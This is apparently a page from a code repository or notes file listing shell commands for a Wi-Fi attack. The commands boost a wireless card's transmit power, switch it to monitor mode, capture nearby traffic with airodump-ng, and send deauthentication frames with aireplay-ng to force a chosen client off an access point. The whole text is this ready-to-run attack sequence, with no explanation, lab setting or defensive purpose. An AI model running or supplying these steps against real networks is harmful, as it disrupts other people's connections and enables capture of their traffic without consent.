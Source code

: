 ```
iwconfig
```
```
ifconfig wlan0 down
```
```
iwconfig wlan0 txpower 30
```
```
ifconfig wlan0 up
```
```
sudo airmon-ng start wlan0
```
```
sudo airodump-ng wlan0mon --band abg -w dump
```

---

```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan0mon
```
